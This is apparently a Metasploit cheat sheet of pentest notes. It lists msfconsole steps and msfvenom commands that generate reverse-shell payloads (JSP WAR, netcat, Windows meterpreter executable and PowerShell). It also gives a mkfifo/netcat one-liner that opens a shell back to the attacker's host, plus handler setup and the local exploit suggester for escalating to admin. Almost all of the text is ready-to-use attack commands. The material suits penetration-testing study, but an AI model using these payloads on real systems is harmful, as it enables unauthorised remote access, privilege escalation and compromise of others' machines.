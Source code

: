
MSFconsole
---
```
search $TARGET_SERVICE
use X
 options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```shell
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```shell
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```shell
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```